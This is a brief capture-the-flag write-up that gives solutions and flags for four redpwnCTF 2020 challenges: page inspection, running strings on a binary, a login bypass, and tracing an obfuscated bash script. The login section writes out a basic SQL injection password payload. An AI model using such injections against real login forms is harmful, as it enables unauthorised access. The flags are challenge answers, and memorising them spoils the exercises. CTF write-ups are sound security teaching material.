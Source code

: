 # web/inspector-general - flag{1nspector_g3n3ral_at_w0rk}

Inspect page elements, flag is there
```
<meta name="redpwnctf2020" content="flag{1nspector_g3n3ral_at_w0rk}">
```

# rev/ropes - flag{r0pes_ar3_just_l0ng_str1ngs}
- using strings gives you the flag
```
/usr/lib/libSystem.B.dylib
Give me a magic number: 
First part is: flag{r0pes_ar3_
Second part is: just_l0ng_str1ngs}
@dyld_stub_binder
@_printf
@_puts
```

# web/login - flag{0bl1g4t0ry_5ql1}

Use basic SQL Injection in the password. comment end of query with -- (sqlite)
```
user: whatever_you_want
password: password' OR 1=1--
```

Pop-up with the flag appears


# misc/uglybash - flag{us3_zsh,_dummy}

If we open the script, it's basically obfuscated code, so it'll be impossible to simply find the flag.

However, we can run the script in `DEBUG` mode with `-x` and it will print every line evaluation, along with the flag!

```
bash -x cmd.sh
```

Flag can be seen at the last line, or can be rebuilt looking at the printf commands

